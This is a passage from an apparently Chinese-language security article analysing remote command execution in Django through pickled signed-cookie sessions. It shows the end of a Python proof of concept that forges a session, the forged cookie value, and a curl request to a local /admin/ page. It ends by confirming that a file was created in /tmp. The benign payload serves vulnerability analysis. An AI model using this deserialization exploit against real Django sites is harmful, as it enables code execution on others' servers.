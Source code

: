 ```python
    obj=CreateTmpFile(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)
print sess
```

运行该 PoC 后，得到加密后的 session 值：

    gAJjc3VicHJvY2VzcwpjYWxsCnEBXXECKFUFdG91Y2hxA1UPL3RtcC92dWxuZXJhYmxlcQRlhVJxBS4:1Zb63z:AUICT5WAqW3JrFNYpeR0remUBHI

然后直接请求 `http://127.0.0.1:8000/admin/` 并附上相应的 session 值。

    curl http://127.0.0.1:8000/admin/ --cookie "sessionid=gAJjc3VicHJvY2VzcwpjYWxsCnEBXXECKFUFdG91Y2hxA1UPL3RtcC92dWxuZXJhYmxlcQRlhVJxBS4:1Zb63z:AUICT5WAqW3JrFNYpeR0remUBHI"
	
然后查看 `/tmp` 目录，发现成功创建了 `vulnerable` 文件，命令得到了执行：

![](/images/articles/2015-09-12-django-command-execution-analysis/6.png)

同时服务器也抛出错误：

![](/images/articles/2015-09-12-django-command-execution-analysis/7.png)
